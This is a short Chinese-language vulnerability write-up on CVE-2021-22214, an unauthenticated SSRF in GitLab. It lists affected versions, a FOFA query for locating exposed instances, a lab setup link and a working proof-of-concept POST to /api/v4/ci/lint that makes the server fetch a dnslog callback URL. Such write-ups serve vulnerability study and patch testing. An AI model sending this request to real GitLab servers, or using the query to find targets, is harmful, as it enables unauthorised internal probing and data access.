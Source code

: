 # GitLab SSRF漏洞 CVE-2021-22214

## 漏洞描述

GitLab存在前台未授权SSRF漏洞，未授权的攻击者也可以利用该漏洞执行SSRF攻击（CVE-2021-22214）。该漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。

## 漏洞影响

```
Gitlab > 10.5
```

## FOFA

```
app="GitLab"
```

## 环境搭建

http://vulfocus.fofa.so/

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091900273.png)



## 漏洞复现

登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091900222.png)



发送请求包

```plain
POST /api/v4/ci/lint HTTP/1.1
Host: 
User-Agent: python-requests/2.25.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/json
Content-Length: 111

{"include_merged_yaml": true, "content": "include:\n  remote: http://965qaw.dnslog.cn/api/v1/targets?test.yml"}
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091900121.png)